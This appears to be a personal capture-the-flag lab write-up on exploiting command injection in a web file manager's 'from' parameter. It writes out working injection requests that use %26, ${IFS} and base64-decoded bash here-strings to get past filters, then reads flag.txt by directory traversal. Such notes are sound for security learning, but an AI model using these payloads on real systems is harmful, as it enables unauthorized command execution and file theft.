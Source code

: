 
## getting the injection field


the site has many requests such as copying files to directory

moving the file into folder

advanced search

test all the parameters with the cheatsheet

>[!hint]
>if u see malicious payload u are on the right track :)

#### Obfuscating and evading

i found out thhat we get the command error from abusing the from field
and usiong %26 which is the & character 

i then base64 encoded the payload and used bash to execute it on the bakcend


```shell
echo -n 'whoami' | base64
```


the full header for pwd

```header
POST /index.php?to=&from=%26bash<<<$(base64${IFS}-d<<<cHdk)%26&finish=1&move=1 HTTP/1.1
```

i then ls the root folder by direcotry traversla

```shell
 echo -n 'ls ../../../../' |base64
 bHMgLi4vLi4vLi4vLi4v
 
```

we cann see that the flag.txt is located in root
and we can just swap the ls from our previos command to cat 

```shell
echo -n 'cat ../../../../flag.txt' |base64
Y2F0IC4uLy4uLy4uLy4uL2ZsYWcudHh0
```

final header looks like this 

``` POST
POST /index.php?to=&from=%26bash<<<$(base64${IFS}-d<<<Y2F0IC4uLy4uLy4uLy4uL2ZsYWcudHh0)%26&finish=1&move=1 HTTP/1.1
```

![[Pasted image 20250225122545.png]]
